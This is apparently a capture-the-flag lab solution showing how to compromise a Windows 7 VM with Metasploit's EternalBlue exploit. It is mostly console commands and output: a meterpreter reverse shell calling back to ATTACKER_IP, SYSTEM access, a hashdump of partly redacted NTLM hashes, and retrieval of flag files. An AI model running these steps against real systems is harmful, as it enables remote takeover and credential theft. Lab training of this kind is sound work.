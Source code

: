   

#### Solution

If you are having difficulties with compromising the machine, here's a step-by-step guide to compromise theÂ VMÂ withÂ Metasploit. If you would like to use Armitage, use thisÂ [guide that shows step-by-step](https://drive.google.com/file/d/1u-YmWl7cx3tO2vVjon0EtOGLXVCak2SJ/view?usp=sharing)Â instructions. Now ontoÂ Metasploit!  
  
Our first step is to launchÂ Metasploit:  

LaunchingMetasploitand using Eternal Blue!

```shell-session
root@attackbox$ msfconsole -q
msf5 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > set LHOST eth0
LHOST => eth0
msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOST VICTIM_IP
RHOST => VICTIM_IP
msf5 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on ATTACKER_IP:4444 
[*] VICTIM_IP:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] VICTIM_IP:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Home Basic 7600 x64 (64-bit)
[*] VICTIM_IP:445      - Scanned 1 of 1 hosts (100% complete)
[*] VICTIM_IP:445 - Connecting to target for exploitation.
[+] VICTIM_IP:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] VICTIM_IP:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] VICTIM_IP:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Now that we have exploited the Virtual Machine and have achieved System level access, we can use the hashdump command to retrieve the usersÂ NTLMÂ hashes:

Running Hashdump

```shell-session
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c156d5d<snip!>4d6e0943c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae93<snip!>d7e0c089c0:::
Ted:1001:aad3b435b51404eeaad3b435b51404ee:2e2618f266da8867<snip!>5c1309a5c:::
meterpreter > 
```

All that is left is to now retrieve the flags in the user's Home folders:

Collecting our flags!

```shell-session

meterpreter > cat C:/Users/Administrator/Desktop/root.txt
THM{bd6ea6c87<snip!>21081132744}
meterpreter > cat C:/Users/Ted/Desktop/user.txt
THM{217fa45e3<snip!>fc0be28e760} 
```
